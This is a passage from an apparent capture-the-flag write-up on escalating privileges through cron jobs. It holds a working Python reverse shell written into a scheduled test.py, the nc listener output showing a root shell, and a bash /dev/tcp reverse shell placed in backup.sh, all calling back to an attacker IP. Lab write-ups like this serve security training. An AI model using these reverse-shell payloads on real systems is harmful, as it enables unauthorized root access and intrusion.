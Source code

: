 The asterisks mean that the scripts will run every minute of every hour of every day of every month, regardless of the day of the week. I'm going to test both `test.py` and `backup.sh` scripts for a reverse shell.

Starting with `test.py`.

```bash
ls -al /tmp
total 44
drwxrwxrwt 11 root root 4096 Jul 15 10:51 .
drwxr-xr-x 19 root root 4096 Jul 15 10:48 ..
drwxrwxrwt  2 root root 4096 Jul 15 10:47 .ICE-unix

```

It looks like the `test.py` has been deleted, recreate it in the `tmp` folder and make sure to add the execution permission to both of the scripts.

Referred to ->  [Reverse Shell Cheat Sheet](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```python
#!/usr/bin/python3

import socket
import subprocess
import os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.9.8.180",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])

```

On the attacker machine, start the listener

```bash
nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.9.8.180] from (UNKNOWN) [10.10.237.210] 51296
/bin/sh: 0: can't access tty; job control turned off
# whoami
root

```

Done! We have successfully gained a shell from the `test.py` scheduled task.

Now, for the `backup.sh` file, change it to this.

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.9.8.180/8080 0>&1

```
